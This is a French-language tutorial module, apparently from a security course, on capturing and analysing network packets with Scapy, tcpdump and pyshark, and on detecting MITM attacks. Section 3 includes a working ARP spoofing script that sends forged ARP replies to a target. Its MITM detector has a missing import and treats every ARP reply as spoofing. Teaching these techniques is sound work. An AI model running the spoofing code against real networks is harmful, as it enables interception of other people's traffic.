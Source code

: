 # Module 3 - Semaine 3

### 🟢 Module 3 : Analyse et manipulation des paquets réseau

**Objectif du module :**  
Capturer et analyser le trafic réseau pour détecter des vulnérabilités, avec une introduction à l'utilisation de Scapy pour l'analyse réseau, la capture et le filtrage des paquets, ainsi que la détection des paquets malveillants et les attaques de type Man-in-the-Middle (MITM).

---

### **1. Introduction à Scapy pour l'analyse réseau**

**Qu'est-ce que Scapy ?**

Scapy est une bibliothèque Python utilisée pour la manipulation et l’analyse des paquets réseau. Elle permet de créer, envoyer, recevoir et analyser des paquets réseau facilement. Avec Scapy, il est possible de capturer le trafic réseau en temps réel, d’analyser les paquets à la recherche de données intéressantes, et d’effectuer des attaques réseau telles que le **Man-in-the-Middle** (MITM).

#### **Notions à maîtriser :**
- **Création de paquets :** Scapy permet de créer des paquets personnalisés pour tester la sécurité d’un réseau.
- **Sniffing (ou capture) de paquets :** Scapy permet de capturer les paquets en temps réel et de les analyser.
- **Envoi de paquets :** Vous pouvez envoyer des paquets réseau pour tester la réactivité d'un service ou d'une application.

#### **Exemples pratiques :**
- **Sniffer les paquets réseau** :
    ```python
    from scapy.all import sniff

    def packet_callback(packet):
        print(packet.summary())

    sniff(prn=packet_callback, count=10)
    ```
    Ce script capture les 10 premiers paquets sur le réseau et affiche un résumé de chaque paquet.

- **Créer un paquet ICMP (Ping)** :
    ```python
    from scapy.all import IP, ICMP, send

    packet = IP(dst="192.168.1.1")/ICMP()
    send(packet)
    ```
    Ce script envoie un paquet ICMP (ping) à l’adresse IP spécifiée.

---

### **2. Capture et filtrage des paquets (tcpdump, Wireshark en Python)**

Les outils comme **tcpdump** et **Wireshark** sont largement utilisés pour analyser les paquets réseau. Cependant, ces outils ne peuvent être utilisés directement que via des interfaces graphiques ou des commandes shell. Grâce à Python, vous pouvez automatiser l’analyse et le filtrage des paquets capturés par ces outils en utilisant des bibliothèques comme **pyshark** (interface Python pour Wireshark) et **subprocess** pour exécuter des commandes externes.

#### **Notions à maîtriser :**
- **Tcpdump en Python :** Vous pouvez utiliser **subprocess** pour exécuter des commandes tcpdump et récupérer la sortie dans votre script Python.
- **Filtrage de paquets avec Wireshark :** Vous pouvez utiliser **pyshark** pour analyser les paquets de manière plus spécifique, filtrer selon différents critères (comme le type de protocole, l'adresse IP, etc.).

#### **Exemples pratiques :**
- **Utiliser tcpdump avec subprocess** pour capturer les paquets :
    ```python
    import subprocess

    def capture_packets():
        command = "sudo tcpdump -i eth0 -c 10"
        process = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE)
        output = process.communicate()[0]
        print(output.decode())

    capture_packets()
    ```

- **Utiliser pyshark pour analyser un fichier pcap** (capture de paquets) :
    ```python
    import pyshark

    cap = pyshark.FileCapture('capture.pcap', display_filter='ip')
    for packet in cap:
        print(packet)
    ```
    Ce script ouvre un fichier **pcap** et filtre les paquets pour ne montrer que ceux contenant des informations IP.

---

### **3. Détection des paquets malveillants et attaque Man-in-the-Middle (MITM)**

#### **Qu’est-ce qu’une attaque Man-in-the-Middle (MITM) ?**
Une attaque MITM consiste à intercepter les communications entre deux parties sans qu'elles en aient conscience. L'attaquant peut alors modifier les messages échangés ou espionner les informations sensibles.

##### **Objectif de cette section :**  
Détecter les paquets malveillants, comme ceux utilisés dans les attaques MITM, et les analyser pour prévenir de telles attaques dans un réseau sécurisé.

#### **Notions à maîtriser :**
- **ARP Spoofing** : L’attaquant envoie de fausses réponses ARP pour associer son adresse MAC à une adresse IP cible, redirigeant ainsi le trafic réseau.
- **SSL Stripping** : Une attaque MITM qui force la connexion HTTPS à se convertir en HTTP non sécurisé, exposant ainsi les informations sensibles.

#### **Exemples pratiques :**
- **ARP Spoofing** (attacker’s MAC address on target) avec Scapy :
    ```python
    from scapy.all import ARP, Ether, sendp

    def arp_spoof(target_ip, target_mac, gateway_ip, gateway_mac):
        # Create the ARP response
        arp_response = ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst=target_mac)
        ether_response = Ether(dst=target_mac)/arp_response
        sendp(ether_response, iface="eth0", count=5)

    arp_spoof("192.168.1.5", "00:11:22:33:44:55", "192.168.1.1", "00:11:22:33:44:66")
    ```
    Ce script envoie des paquets ARP falsifiés à une cible pour effectuer une attaque de type ARP Spoofing.

- **Detecting MITM** : Vous pouvez capturer les paquets et vérifier les anomalies dans les entêtes de chaque paquet.
    ```python
    from scapy.all import sniff

    def detect_mitm(packet):
        if packet.haslayer(ARP):
            if packet[ARP].op == 2:  # ARP reply
                print("ARP Spoofing detected!")
                print(packet.summary())

    sniff(prn=detect_mitm, store=0)
    ```
    Ce script vérifie la présence de réponses ARP suspectes (souvent utilisées dans les attaques MITM).

---

### **4. Exercice : Créer un sniffer qui capture et analyse les paquets en temps réel**

**Objectif de l'exercice :**  
Créer un sniffer capable de capturer et d'analyser le trafic réseau en temps réel à la recherche de paquets malveillants ou de tentatives d'attaque. Vous devrez également implémenter une analyse basique pour identifier des paquets suspects ou non autorisés.

#### **Instructions :**
1. Utilisez Scapy pour capturer les paquets en temps réel.
2. Filtrez les paquets en fonction du protocole (HTTP, ICMP, TCP, UDP, etc.).
3. Implémentez une logique qui détecte les paquets suspects (ex. : ARP Spoofing, trafic non sécurisé HTTP).
4. Affichez un résumé des paquets capturés et indiquez si un paquet suspect est détecté.
5. Optionnel : Exécutez le sniffer sur un réseau local simulé dans un environnement virtuel.

#### **Exemple de structure du code :**
```python
from scapy.all import sniff, ARP, IP, TCP

def packet_analysis(packet):
    if packet.haslayer(ARP):
        print(f"ARP Packet: {packet.summary()}")
        # Vous pouvez détecter les anomalies ici

    elif packet.haslayer(IP):
        ip_src = packet[IP].src
        ip_dst = packet[IP].dst
        print(f"IP Packet: {ip_src} -> {ip_dst}")

    elif packet.haslayer(TCP):
        print(f"TCP Packet: {packet.summary()}")
        # Vous pouvez ajouter des conditions supplémentaires pour détecter les attaques

# Capture les paquets et appelle packet_analysis pour chaque paquet
sniff(prn=packet_analysis, store=0)
```

---

### **Conclusion du Module 3 :**

À la fin de ce module, vous devriez être capable de capturer et d'analyser le trafic réseau en utilisant des outils comme **Scapy**, **Wireshark**, et **tcpdump**, de détecter des attaques réseau comme **Man-in-the-Middle** et **ARP Spoofing**, et d'automatiser l'analyse des paquets avec des scripts Python.

Une fois que vous avez maîtrisé ces compétences, vous pourrez aborder le **Module 4** sur les attaques par force brute et l’exploitation des vulnérabilités.